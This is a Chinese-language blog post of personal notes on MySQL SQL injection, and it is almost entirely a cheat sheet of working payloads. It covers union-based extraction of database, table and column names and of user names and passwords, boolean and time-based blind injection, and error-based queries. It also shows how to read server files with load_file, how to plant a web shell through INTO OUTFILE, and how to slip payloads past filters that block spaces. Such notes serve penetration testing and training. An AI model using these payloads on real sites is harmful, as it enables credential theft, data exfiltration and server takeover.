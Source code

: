 ```yaml
---
layout: post
title: "MySQL SQL注入笔记"
date: 2017-08-27
categories: Note
---
```


### 常规报错

- 猜字段数

  `order by n/*`

#### 数字型

- 获取当前数据库名：

  `http://a.com/test/1.php?id=1 and 1=2 union select GROUP_CONCAT(DISTINCT+database()),2 from information_schema.columns`
- 获取所有表名:

  `http://a.com/test/1.php?id=1 and 1=2 union select GROUP_CONCAT(DISTINCT+table_name),2 from information_schema.columns+where+table_schema=0x7374756479              //0x7374756479为数据库名的16进制`

- 获取表名中所有的字段:

  `http://a.com/test/1.php?id=1 and 1=2 union select GROUP_CONCAT(DISTINCT+column_name),2 from information_schema.columns+where+table_name=0x7573657273 and table_schema=0x7374756479     //0x7573657273为表名的16进制`

- 获取数据:

  `http://a.com/test/1.php?id=1 and 1=2 union select concat(字段1,0x2323,字段2),2 from 表名`

#### 字符型

  `http://a.com/test/1.php?id=admin%' and 1=2 union select 1,2,concat(name,0x2323,pass) from users%23`

### 盲注

- 使用 ascii （配上二分法食用更佳）
  - 获取数据库名

    `http://a.com/test/1.php?id=1 and ord(substr(database(),1,1))=115 //判断数据库名的第一个字符的ascii,如果ascii与后面的数字不一样,则报错…`

  - 获取表名

    `http://a.com/test/1.php?id=1 and ord(substr((select distinct table_name from information_schema.columns where table_schema=0x7374756479 limit 1,1),1,1))=97`

  - 获取字段

    `http://a.com/test/1.php?id=1 and ord(substr((select name from users limit 0,1),1,1))=117`

  - 获取数据

    `http://a.com/test/1.php?id=1 and ord(substr((select name from users limit 0,1),1,1))=117`

- 使用正则表达式

  `and 1=(SELECT 1 FROM information_schema.tables  WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^[a-n]' LIMIT 0,1)`

#### 基于时间的盲注

  `SELECT target_column FROM target_table WHERE id=1 UNION SELECT IF(ord(substr(database(),1,1))=115, sleep(5),1)`

#### 基于报错

  - `http://www.waitalone.cn/sql.php?id=1+and(select 1 from (select count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2))name from information_schema.tables group by name) as b)`

  - `updatexml(0x7e, concate(select user()),1) --+`

#### MySQL 读写文件

  - `create table a(cmd text);load data infile ’c:\xxx\xxx\xxx.txt’ into table a;select * from a;`
  - `create table a(cmd text);insert into a(cmd) values(load_file(’c:\ddd\ddd\ddd.txt’));select * from a`
  - `load_file(char(32,26,56,66))`
  - `load_file(0x633A5C626F6F742E696E69)`
  - `union select 1,2,3,char(这里写入你转换成10进制或16进制的一句话木马代码),5,6,7,8,9,10,7 into outfile ’d:web90team.php’/*
union select 1,2,3,load_file(’d:weblogo123.jpg’),5,6,7,8,9,10,7 into outfile ’d:web90team.php’/*`

#### 注入技巧

  - 过滤空格注入
    使用/**/或()或+代替空格

    %0c = form feed, new page

    %09 = horizontal tab

    %0d = carriage return

    %0a = line feed, new line

  - 相关函数
    system_user() 系统用户名

    user() 用户名

    current_user 当前用户名

    session_user()连接数据库的用户名

    database() 数据库名

    version() MYSQL数据库版本

    load_file() MYSQL读取本地文件的函数

    @@datadir 读取数据库路径

    @@basedir MYSQL 安装路径

    @@version_compile_os 操作系统 

  - 判断是否具有读写权限

    - `and (select count(*) from mysql.user)>0/*`
    - `and (select count(file_priv) from mysql.user)>0/*`

  - sleep 函数是每条记录停留多久，总的停留时间与记录数有关。